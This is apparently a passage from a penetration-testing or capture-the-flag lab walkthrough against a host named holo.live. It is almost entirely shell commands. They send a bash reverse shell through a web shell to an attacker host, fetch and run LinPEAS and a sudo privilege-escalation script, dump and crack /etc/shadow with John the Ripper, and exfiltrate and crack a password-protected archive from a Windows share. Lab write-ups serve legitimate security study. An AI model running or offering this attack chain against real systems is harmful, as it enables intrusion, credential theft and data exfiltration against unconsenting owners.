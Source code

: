 ```bash
curl -H 'Host: www.holo.live' "http://192.168.198.135/shell.php?cmd=bash+-i+>&+/dev/tcp/192.168.198.130/4444+0>&1"
```

Listener:

```bash
nc -lvnp 4444
```

Confirmed host access with `hostname` and `whoami`.

---
### 6. Privilege Escalation, Hash Cracking, and Network Pivoting

#### Shell Upgrade & LinPEAS

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
cd /tmp
curl -O http://192.168.198.130:8000/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

#### Privilege Escalation via Exploit Script

```bash
curl -O http://192.168.198.130:8000/sudo-chwoot.sh
chmod +x sudo-chwoot.sh
./sudo-chwoot.sh
```

#### Dump & Crack Shadow Hashes

```bash
cat /etc/shadow
# Copy contents to Kali
john --wordlist=/usr/share/wordlists/rockyou.txt --format=sha512crypt hashubuntu.txt
```

#### Windows Share Enumeration & File Extraction

```bash
cd /mnt/Windows_Share
python3 -m http.server 8888
```

Then from Kali:

```bash
wget http://192.168.198.135:8888/secret2.7z
/usr/share/john/7z2john.pl secret2.7z > hash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```
